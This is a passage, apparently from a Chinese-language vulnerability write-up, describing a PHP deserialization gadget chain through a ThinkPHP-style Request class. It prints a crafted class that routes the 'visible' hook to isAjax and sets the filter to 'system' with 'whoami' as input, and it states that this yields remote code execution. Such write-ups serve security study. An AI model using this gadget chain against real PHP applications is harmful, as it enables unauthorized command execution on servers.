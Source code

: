 ![](./pics/23.png)
因为`isAjax()`和`isPjax()`中调用`param()`时，传入`param()`的第一个参数(传入`input()`的第二个参数)也就是`$name`可控,不会被报错终止
![](./pics/24.png)
设置为
```php
    class Request{
        protected $hook = ["visible" => ["Request","isAjax"]];
        protected $filter = "system"; //filterValue()中的 filters数组
        protected $config = ['var_ajax' => '']; //input()中的 $name
        protected $param = ["whoami"]; //input()中的 $data
        function __construct(){
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
```
最终即可RCE
